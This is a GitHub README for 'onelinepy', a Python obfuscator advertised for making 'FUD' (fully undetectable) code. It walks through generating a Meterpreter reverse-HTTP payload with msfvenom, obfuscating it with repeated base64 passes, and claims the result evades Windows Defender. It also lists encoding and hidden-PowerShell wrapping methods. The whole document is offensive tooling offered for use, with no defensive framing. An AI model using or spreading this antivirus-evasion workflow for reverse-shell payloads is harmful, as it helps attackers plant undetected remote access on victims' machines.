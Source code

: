 # onelinepy
## Python Obfuscator for FUD Python Code.

<img src='oneline.png' />

### Download & Run

```sh
git clone https://github.com/spicesouls/onelinepy
cd onelinepy
chmod +x setup.sh
./setup.sh
onelinepy
```

### Usage Guide

<pre>
<b>              _ _                 </b>
<b>  ___ ___ ___| |_|___ ___</b><font color="#FFE82C"><b> ___ _ _</b></font>
<b> | . |   | -_| | |   | -_</b><font color="#FFE82C"><b>| . | | |</b></font><b>     </b><font color="#FFE82C"><b>Python</b></font>
<b> |___|_|_|___|_|_|_|_|___</b><font color="#FFE82C"><b>|  _|_  |</b></font><b>     </b><font color="#729FCF"><b>Obfustucator</b></font>
<b>                         </b><font color="#FFE82C"><b>|_| |___|</b></font>

<b>usage: oneline.py [-h] [-m M] [-i I] [--script SCRIPT] [--code CODE] [--list] [--output OUTPUT]</b>

<b>optional arguments:</b>
<b>  -h, --help       show this help message and exit</b>
<b>  -m M             Obfustucating Method (i.e, -m /one_line/base64)</b>
<b>  -i I             Iterations For Obfustucation.</b>
<b>  --script SCRIPT  File path of Python file to Obfustucate.</b>
<b>  --code CODE      Python code to Obfustucate.</b>
<b>  --list           List Obfustucating Methods.</b>
<b>  --output OUTPUT  Output File.</b>
</pre>

### Example: Creating FUD Meterpreter Python Payload

1. Generate Python Payload:

`msfvenom --payload python/meterpreter_reverse_http LHOST=... LPORT=... > payload.txt`

2. Obfustucate Payload

`onelinepy -m /one_line/base64 --script payload.txt -i 3 --output obfustucated_payload.txt`

3. Profit! The Obfustucated Payload works against Windows Defender.

### More Examples

```sh
onelinepy -m /one_line/base64 --script payload.py -i 3
```

```sh
onelinepy -m /one_line/hex --code "print('HEX!')"
```

### Obfustucation Method List

<pre><b>              _ _                 </b>
<b>  ___ ___ ___| |_|___ ___</b><font color="#FFE82C"><b> ___ _ _</b></font>
<b> | . |   | -_| | |   | -_</b><font color="#FFE82C"><b>| . | | |</b></font><b>     </b><font color="#FFE82C"><b>Python</b></font>
<b> |___|_|_|___|_|_|_|_|___</b><font color="#FFE82C"><b>|  _|_  |</b></font><b>     </b><font color="#729FCF"><b>Obfustucator</b></font>
<b>                         </b><font color="#FFE82C"><b>|_| |___|</b></font>


<b>  Obfustucators ( * = May cause Syntax Errors )</b>
<b> -=============-</b>
<b> 0</b>	<b>/one_line/hex</b>
<b> 1</b>	<b>/one_line/base64</b>
<b> 2</b>	<b>/one_line/base32</b>
<b> 3</b>	<b>/one_line/gunzip*</b>
<b> 4</b>	<b>/one_line/rot13*</b>
<b> 5</b>	<b>/cmd/command</b>
<b> 6</b>	<b>/cmd/powershell</b>
<b> 7</b>	<b>/cmd/powershellhidden</b></pre>
